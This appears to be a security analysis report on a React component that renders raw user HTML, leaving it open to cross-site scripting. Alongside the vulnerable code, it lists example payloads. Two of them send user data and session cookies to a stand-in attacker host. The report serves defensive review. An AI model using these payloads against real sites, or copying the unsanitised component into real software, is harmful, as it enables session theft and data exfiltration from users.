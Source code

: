 # Security Analysis

# Security Vulnerability Analysis Report

## Component: `UnsafeUserDisplay`
**File:** `components/UnsafeUserDisplay.tsx`

---

## 🚨 Critical Security Vulnerabilities

### **1. XSS (Cross-Site Scripting) Vulnerability**

#### **Vulnerable Code:**
```typescript
const UnsafeUserDisplay = ({ html }: { html: string }) => (
  <div dangerouslySetInnerHTML={{ __html: html }} />
);
```

#### **Risk Assessment:**
- **Severity**: CRITICAL
- **CVSS Score**: 9.8 (High)
- **Impact**: Arbitrary JavaScript execution in user's browser

#### **Attack Vectors:**
```javascript
// Example 1: Basic XSS
<UnsafeUserDisplay html="<script>alert('XSS')</script>" />

// Example 2: Event handler XSS
<UnsafeUserDisplay html="<img src=x onerror=alert('XSS')>" />

// Example 3: Data theft
<UnsafeUserDisplay html="<script>fetch('/api/user-data').then(r=>r.json()).then(d=>fetch('https://attacker.com/steal',{method:'POST',body:JSON.stringify(d)}))</script>" />

// Example 4: Session hijacking
<UnsafeUserDisplay html="<script>document.location='https://attacker.com/steal?cookie='+document.cookie</script>" />
```

#### **Real-World Impact:**
- **Session Hijacking**: Steal user authentication tokens
- **Data Theft**: Access sensitive user information
- **Account Takeover**: Perform actions on behalf of the user
- **Malware Distribution**: Inject malicious scripts
- **Phishing Attacks**: Redirect users to fake sites

---